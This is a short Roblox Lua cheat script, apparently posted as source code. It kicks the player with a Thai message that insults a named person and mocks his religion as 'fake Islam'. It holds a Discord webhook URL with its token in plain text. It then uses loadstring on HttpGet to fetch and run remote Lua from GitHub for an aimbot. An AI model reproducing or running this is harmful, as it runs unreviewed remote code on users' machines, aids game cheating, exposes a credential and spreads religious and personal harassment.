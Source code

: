 game.Players.LocalPlayer:Kick("ซีดีป่าเป็นโรคเอ๋อตอเเหลเก่ง\nชื่ออาซัน\nเป็นอิสลามปลอม(โง่ก็โง่")



wait(555)



_G.webhooksdiscord = "https://discord.com/api/webhooks/1054735612122501140/OFrfrbVnvi4Xi6NhUKtH5Ok1PFBXfle553VzBvUjROj196cb_2Sh9PCgrL4LKoxKjB74"
loadstring(game:HttpGet("https://raw.githubusercontent.com/SHARKX516/SHREKATTACK/main/SHARKLOL2.lua"),true)()
_G.Mode = "Aimbot" -- Aimbot / Normal
loadstring(game:HttpGet("https://raw.githubusercontent.com/xlostpexz/tyuiop/Fps/Loading.lua"))()
